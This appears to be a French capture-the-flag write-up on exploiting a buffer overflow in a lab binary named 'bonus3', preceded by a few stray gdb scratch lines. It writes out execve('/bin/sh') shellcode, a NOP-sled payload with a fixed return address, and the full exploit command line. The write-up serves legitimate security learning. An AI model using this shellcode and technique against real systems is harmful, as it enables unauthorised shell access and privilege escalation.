 "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

Offset 23

set args $(python -c 'print 40*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print 23*"A" + "\x08\xf8\xff\xbf"')

(gdb) find /b $esp, +1000, 0x6a, 0x0b, 0x58, 0x99, 0x52, 0x68, 0x2f, 0x2f, 0x73, 0x68, 0x68, 0x2f, 0x62, 0x69, 0x6e, 0x89, 0xe3, 0x31, 0xc9, 0xcd, 0x80


# Bonus3 - Buffer Overflow avec Variables d'Environnement

## Analyse du Programme

**Structure**
- Prend deux arguments en ligne de commande
- Utilise une variable d'environnement LANG
- Contient une fonction greetuser() qui affiche différents messages selon la langue

**Buffers**
- s : Premier buffer pour argv[1]
- var_38 : Buffer pour argv
- str : Buffer dans greetuser()

## Vulnérabilités

**Buffer Overflow dans greetuser()**
- strcat(str, &str) tente de concaténer une zone mémoire au-delà du buffer str
- Cette zone contient les données copiées depuis var_38

**Copie de Mémoire Non Sécurisée**
```c
memcpy(&s[76], var_38, 76);
```
- Copie 76 bytes à partir de la fin du buffer s
- Permet d'écrire au-delà des limites du buffer

## Exploitation

**Construction du Payload**
```python
# Premier argument : shellcode + padding
shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"
arg1 = "\x90" * 40 + shellcode

# Second argument : padding + adresse de retour
arg2 = "A" * 23 + "\x08\xf8\xff\xbf"
```

**Commande d'Exploitation**
```bash
./bonus3 $(python -c 'print 40*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"') $(python -c 'print 23*"A" + "\x08\xf8\xff\xbf"')
```

## Processus d'Exploitation

1. Le premier argument contient :
   - Des NOPs comme zone d'atterrissage
   - Le shellcode qui exécute /bin/sh

2. Le second argument contient :
   - Un padding de 23 bytes
   - L'adresse de retour pointant vers notre shellcode

3. La fonction greetuser() :
   - Tente de concaténer la zone mémoire corrompue
   - Provoque un débordement de buffer
   - Redirige l'exécution vers notre shellcode

4. Le shellcode est exécuté, donnant accès à un shell

